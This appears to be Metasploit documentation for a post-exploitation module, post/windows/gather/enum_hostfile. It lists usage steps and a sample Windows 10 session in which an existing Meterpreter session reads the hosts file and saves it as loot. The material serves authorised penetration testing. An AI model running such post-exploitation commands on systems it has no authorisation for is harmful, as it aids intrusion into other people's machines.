 ## Vulnerable Application

This module reads the hosts file on Windows systems, located at: 
`C:\\Windows\\System32\\drivers\\etc\\hosts`.  Any content lines are printed
and the file is stored in loot.

## Verification Steps

1. Start msfconsole
1. Get a session on Windows
1. Do: `use post/windows/gather/enum_hostfile`
1. Do: `set session [#]`
1. Do: `run`
1. You should get the hosts file

## Options

## Scenarios

### Windows 10

```
msf6 post(windows/gather/enum_hostfile) > use post/windows/gather/enum_hostfile 
msf6 post(windows/gather/enum_hostfile) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 5...
msf6 post(windows/gather/enum_hostfile) > set session 5
session => 5
msf6 post(windows/gather/enum_hostfile) > run

Found entries:
[+] 1.1.1.1 supersecret
[*] Hosts file saved: /root/.msf4/loot/20201011174103_default_192.168.2.92_hosts.confige_103430.txt
[*] Post module execution completed
```
